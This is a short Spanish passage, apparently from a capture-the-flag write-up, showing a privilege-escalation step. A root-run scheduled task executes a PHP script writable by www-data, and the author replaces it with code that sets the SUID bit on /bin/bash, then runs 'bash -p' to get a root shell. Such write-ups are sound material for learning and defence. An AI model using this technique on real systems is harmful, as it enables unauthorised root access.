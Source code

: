 Y lo ejecutamos. Vemos que hay una tarea que ejecuta un script llamado artisan en **php**. Haciendole un 
```bash
 ls -l 
```
 nos damos cuenta que
el proprietario del script es **www-data**. Imaginamos que el que lanza el script es root. vamos a modificar el script.

```php
<?php
    system("chmod 4755 /bin/bash");
?>
```

Esperamos que la tarea se ejecute con 
```bash
 watch -n 1 ls -l /bin/bash 
```
 y pasa a ser SUID

```bash
bash -p
whoami

root
```

